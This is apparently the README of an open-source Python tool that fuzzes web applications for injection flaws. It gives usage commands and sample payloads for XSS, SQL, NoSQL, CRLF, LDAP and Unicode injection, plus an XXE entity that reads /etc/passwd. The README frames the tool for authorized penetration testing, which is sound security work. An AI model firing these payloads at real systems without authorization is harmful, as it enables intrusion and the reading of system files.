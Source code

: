 # InjectFuzzingTool

This tool is a Python-based script designed for testing various injection vulnerabilities in web applications. It includes modules for testing XSS, SQL injection, NoSQL injection, OS command injection, CRLF injection, LDAP injection, XPath injection, XSLT injection, XXE vulnerabilities, and more.

## Features
- **Cross-Site Scripting (XSS)**
- **SQL Injection**
- **NoSQL Injection**
- **OS Command Injection**
- **HTTP Header Injection**
- **LDAP Injection**
- **CRLF Injection**
- **Unicode Injection**
- **XPath Injection**
- **XSLT Injection**
- **XML External Entity (XXE) Injection**

## Requirements
- Python 3.x
- Libraries:
  - `requests`
  - `json`
  - `ldap3`
  - `lxml`

Install the required dependencies using:
```bash
pip install -r requirements.txt
```
And, in XXE_checker, external entity references is turned off at first,so Please change from false to true

## Usage
Run the script with the target URL as an argument:
```bash
python fuzzing.py <URL>
```

### Example
```bash
python fuzzing.py https://example.com
```

## Payloads
This tool uses predefined payloads for various injection types. Below are some examples:

### XSS Payloads
```html
<script>alert('XSS');</script>
<img src=x onerror=alert('XSS')>
```

### SQL Injection Payloads
```sql
' OR '1'='1
1' UNION SELECT NULL, NULL--
```

### NoSQL Injection Payloads
```json
{ "username": { "$ne": "" } }
{ "username": "admin", "password": { "$ne": "" } }
```

### CRLF Injection Payloads
```text
%0d%0aSet-Cookie: admin=true
%0d%0aContent-Length: 0%0d%0aInjected-Header: test
```

### LDAP Injection Payloads
```ldap
*)(&(objectClass=*))
*)|(&(objectCategory=person)(objectClass=user))
```

### Unicode Injection Payloads
```text
%u0027
%u003Cscript%u003Ealert(1)%u003C/script%u003E
```

### XXE Payload
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

## Functions

### `fuzz(url, params=None, payloads=None)`
Tests a given URL with payloads to detect general vulnerabilities.

### `test_nosql_injection(url)`
Tests for NoSQL injection vulnerabilities using JSON payloads.

### `test_csti(url)`
Tests for Server-Side Template Injection (CSTI).

### `test_header_injection(url, headers)`
Tests HTTP header injection by modifying headers with payloads.

### `test_ldap_injection(server, base_dn)`
Tests LDAP injection vulnerabilities.

### `test_json_injection(url, base_data)`
Tests JSON injection vulnerabilities by modifying JSON request bodies.

### `test_crlf_injection(url, param)`
Tests CRLF injection vulnerabilities by appending payloads to query parameters.

### `test_unicode_injection(url, param)`
Tests Unicode-based injection vulnerabilities.

### `scrape_xml(target_url)`
Fetches and parses XML data from the target URL.

### `test_xpath_injection(xml_data)`
Tests XPath injection vulnerabilities using XPath payloads.

### `test_xslt_injection(xml_data)`
Tests XSLT injection vulnerabilities using crafted XSLT payloads.

### `test_xxe(xml_data)`
Tests XXE vulnerabilities by processing XML with external entity references.

## Notes
- Ensure you have proper authorization before testing a target system.
- Use responsibly and only for ethical penetration testing.

## License
This tool is open-source and available under the MIT License. Feel free to use and modify it for your testing needs.

